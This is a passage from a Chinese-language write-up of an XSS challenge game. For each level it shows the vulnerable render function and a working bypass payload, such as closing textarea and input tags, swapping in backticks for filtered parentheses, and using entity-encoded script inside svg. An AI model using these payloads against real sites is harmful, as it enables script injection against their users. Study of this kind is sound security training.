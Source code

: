 所以,我们只需要闭合textarea就可以了



```html
</textarea><script>alert(1)</script>
```



#### 0x02

```php
function render (input) {
  return '<input type="name" value="' + input + '">'
}
```

这题和第二题差不多,我们可以闭合input标签或者闭合"后构造其他语句,这里只给出一个答案

```html
"><script>alert(1)</script>
```



#### 0x03

```php
function render (input) {
  const stripBracketsRe = /[()]/g
  input = input.replace(stripBracketsRe, '')
  return input
}
```

分析源码可以看出过滤了所有的`()` 我们可以使用\`\`来代替

```html
<script>alert`1`</script>
```





#### 0x04

```php
function render (input) {
  const stripBracketsRe = /[()`]/g
  input = input.replace(stripBracketsRe, '')
  return input
}
```

这个就是第三题多了个\`我们可以使用svg来解决

```html
<svg><script>&#x61;&#x6C;&#x65;&#x72;&#x74;&#x28;&#x31;&#x29;</script>
```

转换网址在这https://www.qqxiuzi.cn/bianma/zifushiti.php

